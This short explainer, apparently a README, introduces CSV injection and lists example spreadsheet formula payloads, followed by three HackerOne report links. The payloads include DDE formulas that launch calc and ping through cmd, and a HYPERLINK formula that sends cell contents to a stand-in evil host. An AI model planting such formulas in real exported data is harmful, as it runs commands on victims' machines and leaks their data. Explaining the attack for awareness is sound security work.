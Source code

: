 # What is a CSV injection attack?
When user input gets passed through a spreadsheet sofrware without santization
it can execute excel codes like 

```bash
=4+4
=cmd|'/C calc'!A0
=HYPERLINK(“http://MyExtremelyEvilSite.com?leak=”&A1&” “&B1)
=cmd|’/C ping -t 172.0.0.1 -l 25152’!’A1'
```

REFERENCE : 
https://hackerone.com/reports/386116
https://hackerone.com/reports/118582
https://hackerone.com/reports/459532




